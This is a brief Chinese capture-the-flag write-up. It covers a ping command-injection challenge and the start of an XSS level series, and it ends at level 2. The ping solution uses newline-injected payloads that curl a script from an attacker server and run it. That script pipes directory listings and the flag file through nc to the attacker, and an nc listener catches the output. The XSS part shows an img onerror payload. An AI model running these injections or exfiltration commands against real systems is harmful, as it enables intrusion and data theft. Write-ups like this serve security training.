 ## 死亡ping命令

### 考点：

[反弹shell原理与实现](https://zhuanlan.zhihu.com/p/138393396)

[nc工具的使用](https://blog.csdn.net/xysoul/article/details/52270149)

### 思路：

利用curl命令来写入木马

利用已有的服务器，先编写脚本，然后再客户端将木马导入，再用该服务器对响应的端口进行监听，来获取返回值

### 解题：

在外部服务器编写脚本1.sh：

```
ls / | nc [服务器ip地址] 8089
cat /FLAG | nc [服务器ip地址] 8089 
```

payload：

```
127.0.0.1%0acurl [服务器ip地址]/1.sh > /tmp/1.sh
127.0.0.1%0achmod 777 -R /tmp/1.sh 
```

然后在服务器端执行：

```
nc -lvp 8089 
```

客户端触发脚本：

```
127.0.0.1%0ash /tmp/1.sh 
```

这时候就会反弹得到flag

## XSS闯关

### level1

level1?username=xss

构造payload：

```
level1?username=<img src=1 onerror=alert(1)> 
```

### level2
